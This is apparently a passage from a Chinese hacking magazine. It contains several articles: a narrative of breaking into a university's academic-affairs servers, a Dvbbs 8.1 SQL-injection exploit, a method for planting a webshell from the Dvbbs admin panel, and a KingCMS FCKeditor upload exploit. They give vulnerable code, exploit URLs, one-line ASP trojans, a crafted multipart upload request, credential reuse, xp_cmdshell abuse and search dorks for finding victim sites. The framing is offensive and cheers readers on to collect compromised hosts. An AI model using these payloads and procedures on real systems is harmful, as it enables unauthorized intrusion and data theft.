又遇到了刚才一样的问题，排除一系列可能的原因后，再次得出结论——数据库与 WEB 分离。于是还是采取刚才的办法，我在 x.x.x.171 上使用 s 扫描器扫描了 a.xxx.edu.cn 所在网段开放 1433 端口的服务器（毕竟 x.x.x.171 和 a.xxx.edu.cn 是在同一局域网，效果肯定比在我自己的电脑上扫描要好），如图7。


图7

看到图7和图9的区别了吧，多了 a.a.a.10 和 a.a.a.11，在 a.a.a.19 上登录 a.a.a.10 远程桌面，成功了！让人意外的是竟然是 x64 版的 Win2003，不过配置一般：7.75G 的内存，8 块 CPU，64 位机子的低端配置了，如图10。


图9

尝试登录这些开放了 1433 端口的主机的远程桌面，结果没有一台能够成功登录，不是连接不上就是密码错误。冷静下来，假设通过注入用户确实已经添加上了，那么可以做出如下判断：数据库服务器在开放了 1433 端口但不能连接 3389 的主机里，或者数据库服务器的 1433 端口并没有对 x.x.x.171 开放。为了得到数据库服务器的 IP，我在 x.x.x.171 上监听 21 端口，在注入点中执行 ftp x.x.x.171 命令，但没有任何反应。对于开放了 1433 没开放 3389 的主机挨个扫描了 1-65535 的所有端口，也没有……

到这里，我已经拿下了 a.xxx.edu.cn 的数据库服务器。在数据库服务器上翻了翻，发现了 D:\***Root，进去一看，推测是 a.xxx.edu.cn 网站目录的备份，是使用 Aspx 写的站点，直觉告诉我马上应该去找 web.config，结果让人振奋：


图10



图11



图12

```xml
<appSettings>
    <add key="ConnectionString" value="server=a.a.a.10;uid=sa;pwd=Net***;database=xxx" />
    <add key="JwplanConnectionString" value="server=a.a.a.7;uid=sa;pwd=Net***;database=xxx" />
</appSettings>
```

其中的 a.a.a.10 就是数据库服务器本身，而 a.a.a.7 就是 a.xxx.edu.cn 的 IP，离成功只差一步了！马上使用 SQL Server Management Studio 连接 a.a.a.7，密码是 Net***，成功连接，如图11。

使用 sp_configure 将 xp_cmdshell 开启，a.xxx.edu.cn 就这样沦陷了。到此，我已经拿下了教务处的数据库服务器和 WEB 服务器，当然这样说不太准确，因为从 web.config 来看，WEB 服务器上也有一部分数据，所以 WEB 服务器本身也是数据库服务器。我脑子里突然有了个念头，sa:Net*** 这个组合能不能登录其它的 SQL Server 呢？尝试了同网段开放 1433 端口的主机，成功登录 a.a.a.26，加上用户后发现这是一个备份服务器，如图12。

现在，xxx.edu.cn 大学的教务处系统才是全面沦陷了！看完这个入侵过程，可能会有人要问：为什么在遇到 sa 注入点的时候不直接使用 vbs 下载者呢？下载一个配置好的木马或者使用 lcx 把端口转出来，不就不用那么麻烦了吗？有时候我也那么做，但是在这种情况下却不行：

- 用反弹木马绝对不行，如果免杀做得不好，打草惊蛇；即使免杀，谁也不敢保证木马本身还有没有后门，事情的发展可能会失控，后果很严重。
- vbs 下载者本身也很容易被杀，而且对于不能连接公网的数据库服务器也没有作用，反而更容易被发现。
- lcx 即使做好了免杀，也容易被防火墙所拦截。

## 动网 8.1 最新注入漏洞来了

hackest [H.S.T]



时光飞逝，转眼间，充满希望的 2008 年已悄然而至。动网，这个国内用户最多的论坛程序也不断地在推陈出新。这不，最新的 8.1.1 版本已经出来了。不过动网始终摆脱不了“洞网”的谬称命运，伴随着最新版本的推出，最新的安全漏洞居然也出现了，这个漏洞可以使攻击者直接获得管理员的密码 MD5 值，而且是通杀 Access 和 SQL 版数据库的哟！该漏洞的出现也似乎印证了某人“动网无论哪一个版本都存在漏洞”的感慨。

好了，我们进入主题，存在漏洞的文件为 UserPay.asp，此文件传递的变量过滤不严，导致出现了注入漏洞。受影响的版本为：8.0.0 Sp1 以上版本以及更新过支付宝接口的用户（引自动网官方论坛，不包含 8.0.0 Sp1，经测试 8.0.0 和 8.0.0 Sp1 版本不受影响）。

### 一、漏洞成因

来简单看下漏洞形成的原因，以下是 UserPay.asp 文件的第 12~64 行代码：

```vb
If Request("raction")="alipay_return" Then
    AliPay_Return()
    Dvbbs.Footer()
    Response.End
ElseIf Request("action")="alipay_return" Then
    AliPay_Return()
    Dvbbs.Footer()
    Response.End
ElseIf Request("action")="Re_inmoney" Then
    Re_inmoney()
    Dvbbs.Footer()
    Response.End
End If
```

由代码可以看出，无论是用户提交的 raction 为 alipay_return，还是 action 为 alipay_return，都同样调用了 AliPay_Return() 过程。

再来看一下 AliPay_Return() 的代码原型，在第 329—351 行处：

```
Sub AliPay_Return()
    If Dvbbs.Forum_ChanSetting(5) <> "0" Then
        AliPay_Return_Old()
        Exit sub
    Else
        Dim Rs,Order_No,EnCodeStr,UserInMoney
        Order_No=Request("out_trade_no")
        Set Rs = Dvbbs.Execute("Select * From [Dv_ChanOrders] Where O_IsSuc=3 And O_PayCode='"&Order_No&"'")
        If not(Rs.Eof And Rs.Bof) Then
            AliPay_Return_Old()
            Exit sub
        End if
        Response.Clear
        Set Rs = Dvbbs.Execute("Select * From [Dv_ChanOrders] Where O_IsSuc=0 And O_PayCode='"&Order_No&"'")
        If Rs.Eof And Rs.Bof Then
            Response.Write "N"
        Else
            Response.Write "Y"
            Dvbbs.Execute("Update Dv_ChanOrders Set O_IsSuc=3 Where O_ID ='" & Rs("O_ID")")
        End If
        Response.End
    End If
End Sub
```

以上代码表明，如果 **Dvbbs.Forum_ChanSetting(5) <> "0"**，就执行代码下面的 SQL 语句。我们再来看看数据库里默认的 Forum_ChanSetting 的值：`1,1,0,0,pay@aspsky.net,0,b63uvb8nsvsmbsaxszgvdr6svyus0l4t,1,1,1,...`，Forum_ChanSetting(5) 缺省值为 0，满足上面提到的条件，执行以下代码：

```
Order_No=Request("out_trade_no")
Set Rs = Dvbbs.Execute("Select * From [Dv_ChanOrders] Where O_IsSuc=3 And O_PayCode='"&Order_No&"'")
```

直接把获取的 Order_No 放到 SQL 里面执行去了，漏洞就这样出现了（以上内容参考自漏洞发现者 Tr4c3 博客，在此感谢 Tr4c3）。

### 二、漏洞测试

以上就是该漏洞形成的原因，当然了，作为菜鸟最感兴趣的还是漏洞的详细利用过程。为了方便测试，我们可以对本机安装 IIS6.0，架设动网 8.1 Access 最新版本的论坛。以默认的管理员身份登录（在实际入侵过程中需要注册用户进行登录），然后直接访问 UserPay.asp 文件，点击“网上支付”，如图1。


然后再点击“所有交易记录”，这样做的目的是为了得到一个订单号，如图2。


其中的 2008010901555983075b64cea5f 就是我们需要的订单号了。构造如下的 URL：`http://127.0.0.1/UserPay.asp?raction=alipay_return&out_trade_no=2008010901555983075b64cea5f`（提交此 URL 我们会看到只有一个字母 Y），在此 URL 后加上单引号，提交后，返回了错误信息：

```
Microsoft JET Database Engine 错误 '80040e14'
字符串的语法错误，在查询表达式 'O_IsSuc=3 And O_PayCode='2008010901555983075b64cea5f''' 中。
/inc/Dv_ClsMain.asp，行 1525
```

有这个提示就好办了，我们把 URL 直接扔到 NBSI 3.0 里进行检测，但检测的结果却为“未检测到注入漏洞”。别担心，给它填入“特征字符”就可以正常检测到了，在特征字符处填入“非法的订单参数”即可。这回检测出来了吧，接着猜出表段、字段以及里面存放的内容，如图3。



接下来就是将得到的 MD5 密码拿到 cmd5 等网站上去进行查询了，查询出密码明文后再重新登录后台，想办法得到 Webshell 就行了。我测试的是 Access 版本，不过该漏洞同样对 SQL 版本的也有效。因为利用过程比较简单，详细的操作就请参考收录的漏洞发现者的操作录像。至于动网 8.1 后台如何获取 Webshell，我们将在本期另一篇文章中进行详细的讨论。

### 三、漏洞修补

正如漏洞发现者所说的，在 8.0.0 及 8.0.0 Sp1 版本里并不存在此漏洞，因为旧版本的 UserPay.asp 对 out_trade_no 作了过滤，让人不解的是新版本中居然没有！不过针对该漏洞，动网官方的反应也很迅速，漏洞公布的次日就发布了相关修补方法。对比一下 8.0.0 版本的 UserPay.asp 的代码就知道如何修补了：打开 UserPay.asp，查找 `Order_No=Request("out_trade_no")`，然后替换为 `Order_No=Dvbbs.Checkstr(Request("out_trade_no"))`，就可以修复该漏洞了。

## 动网 8.1 之后台获取 Webshell 大法

hackest [H.S.T]



本期公布了一个动网 8.1 的最新注入漏洞，利用该漏洞我们可以轻松得到管理员密码的 MD5 值，继而查询密码明文进入后台。不过对于进入后台后如何获取 Webshell，我在那篇文章中并没有提及，下边我就详细讲述一下如何在动网 8.1 论坛的后台获取 Webshell。

动网虽然一直“洞”不断，不过 8.1 版本明显在后台安全方面比以前版本加强了许多，甚至让不少朋友感觉“动网 8.1 终结了在后台获取 Webshell 的可能”。其实不然，在动网 8.1 后台一样可以获取 Webshell，不过使用的方法当然与在 8.0 后台有些不同。

### 一、后台备份

还记得我在 07 年第 8 期杂志上写的“动网 8.0 后台 Webshell 大作战”那篇文章吗？对于动网 8.1 的后台，如果我们仍然按照 8.0 的方法来试的话，结果肯定会让你失望的。我们今天介绍的方法需要满足两个条件：一是必须为 IIS6.0，二是论坛可以执行上传及数据备份等操作。


下面根据上面的描述操作一遍：首先需要“制造”一个符合要求的 .mdb 文件。把 Data 目录下的 Dvbbs8.mdb 复制出来，删除除 Dv_TableList 以外的所有表；在 TableType 字段里插入一句话 ASP 木马。

```asp
<%execute request("cmd")%>
```


光这样还是不行的，因为即使数据库里只剩下一个表，体积仍然较大，超出了 Windows 2003 默认上传 200K 限制，所以要把它变小点，也就是把它“转为 Access 97 文件格式”（Dvbbs8.mdb 是 Access 2000 格式）。


- 1. 备份论坛数据页面的“当前数据库路径”不可更改；
- 2. 备份论坛数据页面的“备份数据库目录”不允许出现 asp 字符；
- 3. 恢复论坛数据页面的“目标数据库路径”不可更改；
- 4. 使用空数据库合并的文件恢复会导致论坛出错，后续备份操作无法完成。

我们来分析一下以上的限制条件，其中第 1 和第 3 是没办法突破的，因为是程序锁死的，无法更改。第 2 点看似封死，但从动网代码中发现只是限制了 .asp，目录不用 .asp 可以用 .asa，在 IIS6.0 下一样可以解析执行。第 4 点则需要保留动网默认数据库里的一个表段 Dv_TableList，之后通过“恢复论坛数据”“备份论坛数据”等流程实现覆盖替换。

现在，“变身”后的 Dvbbs8.mdb 苗条多了，大小仅约 68K，完全符合要求。我们把 Dvbbs8.mdb 改为 Dvbbs8.txt（即改扩展名），这样便于上传，因为动网不允许上传 .mdb 文件，但允许上传 .txt 文件。

- 1. 在前台发帖上传 Dvbbs8.txt，记下上传路径；
- 2. 进入后台先备份当前数据，记下备份文件名；
- 3. 打开恢复论坛数据页面，在“备份数据库路径（相对）”处填入上传的 txt 路径，点击“恢复数据”；
- 4. 打开备份论坛数据页面，将“备份数据库目录（相对路径）”改为 `../x.asa` 并确认。



得到的 Webshell 地址为 `http://127.0.0.1/x.asa/databack20081954149_36673.mdb`，访问一下，成功了，如图 7。






- 5. 将第 2 步备份的数据库恢复回来。

经过以上的操作，我们就可以在 IIS6.0 环境下顺利得到一句话 Webshell 了，使用一句话木马客户端连接，提交权限变更。

成功返回相关信息，如图 8。千万要记住以上这些操作除第 1 和第 2 步外其余的顺序不能乱，步骤也不能少，而且操作间隔时间别太长，越快越好，否则有可能达不到预期的效果。因为我们在获取 Webshell 的同时也要为论坛的正常使用考虑，不注意恢复数据的话会给对方造成比较大的损失，而且容易惊动目标，引起管理员的注意，将你的入侵行为暴露无遗。

### 二、添加上传

这个方法也不是什么新内容了，在“动网 8.0 后台 Webshell 大作战”一文里曾经提到过，就是直接添加 php 为允许上传的类型。进入后台，在“常用快捷功能”卡找到“论坛版面管理”，随便找一个版块，进入“高级设置”，找到“上传文件类型”，添加上一个 php 文件类型，如图 9。



然后拉到下面，点击“提交”保存设置，再到前台发帖上传 .php 后缀的 PHP 代码，如果服务端当前目录支持 PHP 脚本的话，就可以拿到 Webshell 了。这个方法的限制条件就是当前目录是否解析 php 脚本，比如我找到了一个支持的网站就成功拿到了 Webshell，如图 10。另外添加上传其它网站支持的脚本扩展也可以。


结合动网 8.1 的那个最新漏洞，估计小菜们又可以拿到不少 Webshell 了。最后，恭祝各位读者在新的一年里：学有所成，肉鸡成群！

> （文章中涉及到的工具 ASP+PHP 两用 Shell、Dvbbs8.txt 已经收录在光盘中）

## KingCMS 0day 漏洞之菜鸟体验

KingCMS 是一个功能非常强大的整站系统，其界面华丽，内容丰富，比较适合大型网站使用。我们将“Powered By KingCMS”作为关键字在 google 或百度中进行搜索的话，会找到许多使用这种系统的网站，如图 1。KingCMS 的最新版本是 5.0，这几天在网上居然看到 KingCMS 又出新漏洞了，看来我们又有新东西可玩了。


关于这个漏洞的简要分析我们可以从网上查找到，问题主要出在这套程序附带的 FCKeditor 里的 connector.asp 文件上，里面包含的同级目录下的 config.asp 由于过滤不严而导致修改提交数据包就可以上传木马，这算是一个比较经典的上传漏洞了，问题代码如下：

```asp
ConfigAllowedExtensions.Add "File", ""
ConfigDeniedExtensions.Add "File", "php|php2|php3|php4|php5|..."
phtml|pwm|inc|asp|asa|cer
|asx|ascx|spx|cfm|cfc|pl|bat|exe|com|dll|vbs|js|s|res|cgi|htaccess

ConfigAllowedExtensions.Add "Image", "jpg|gif|jpeg|png|bmp"
ConfigDeniedExtensions.Add "Image", ""

ConfigAllowedExtensions.Add "Flash", "swf|fla"
ConfigDeniedExtensions.Add "Flash", ""
```

这是一个过滤设置，ConfigAllowedExtensions.Add 是指某种类型的文件允许上传的扩展名集合，而 ConfigDeniedExtensions.Add 则是指某种类型的文件所禁止上传的扩展名集合。要想成功利用这个漏洞，前提是必须知道 FCKeditor 目录以及上传文件的目录有执行权限。

对于 5.0 以前的版本，就是网站根目录的 `admin/editor/`（即 `http://www.xxx.com/admin/editor/FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp`），手工利用的方法就是抓包，然后修改数据包，以下就是修改后的数据包：

```http
POST /admin/editor/FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=FileUpload&Type=File&CurrentFolder=/ HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------7d711d020128
Host: www.xxxx.com
Content-Length: 210

-----------------------------7d711d020128
Content-Disposition: form-data; name="NewFile"; filename="yijuma.asp"
Content-Type: text/plain

<%execute request("#")%>
-----------------------------7d711d020128--
```

使用 nc 提交就可以直接上传一句话木马，然后使用客户端连接就可以得到 webshell，如图 2、图 3。




漏洞的发现者——零号大哥已经写出了漏洞的利用程序，直接利用它就可以轻松得到 webshell。先打开 google 以“Powered by KingCMS 3.0”作为关键字进行搜索，找到某个使用 KingCMS3.0 系统的网站，如图 4。

